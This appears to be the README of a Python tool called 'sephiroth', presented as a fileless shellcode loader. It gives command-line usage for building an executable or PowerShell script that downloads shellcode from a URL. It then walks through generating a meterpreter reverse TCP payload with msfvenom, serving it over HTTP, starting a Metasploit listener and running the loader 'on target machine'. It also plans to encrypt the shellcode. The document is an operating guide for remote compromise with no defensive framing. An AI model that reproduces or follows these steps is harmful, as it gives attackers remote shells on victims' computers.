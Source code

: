 ![Alt text](<2024-02-20 07_45_57-C__Windows_System32_cmd.exe.png>)

Greetings
-------------------

sephiroth  is a Fileless Shellcode Loader with Python :


Usage: python Sephiros.py -url 'urlforshellcode'

u can generate a ps1 script with -ps instead of building into exe

python Sephiros.py -url 'urlforshellcode' -ps

you can also just embed shellcode into the PE directly using -sh 'pathofshellcode'


python Sephiros.py -sh 'pathto_shellcode'

setup
---------

pip install -r requirements.txt

python Sephiroth.py

fileless execution example:
-------------------
generate shellcode with:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=5555 -f raw  -o shellcode

python3 -m http.server 80


then:

python Sephiroth.py -url http://yourip/shellcode

start metasploit listener

execute PE on target machine

todo
--------
asymetric encryption to the shellcode
